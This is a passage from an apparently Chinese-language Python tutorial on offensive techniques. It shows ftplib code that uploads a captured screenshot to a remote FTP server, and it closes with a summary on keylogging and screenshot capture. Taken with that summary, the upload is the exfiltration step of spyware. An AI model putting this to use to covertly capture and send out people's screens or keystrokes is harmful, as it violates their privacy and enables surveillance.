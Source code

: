 使用远程服务器凭据开始新会话：

```py
session = ftplib.FTP('remote-server.com','user','password') 

```

使用以下代码打开文件：

```py
file = open('screenshot.png','rb')

```

发送文件：

```py
session.storbinary('STOR screenshot.png', file)

```

关闭文件和 FTP 会话：

```py
file.close()                                     
session.quit() 

```

# 总结

我们已经讨论了您可以使用 Python 进行按键记录和屏幕截图的基本模块。现在，您可以创建这些脚本的定制版本来记录按键并抓取屏幕截图。我们将在下一章中讨论一些攻击自动化技术。
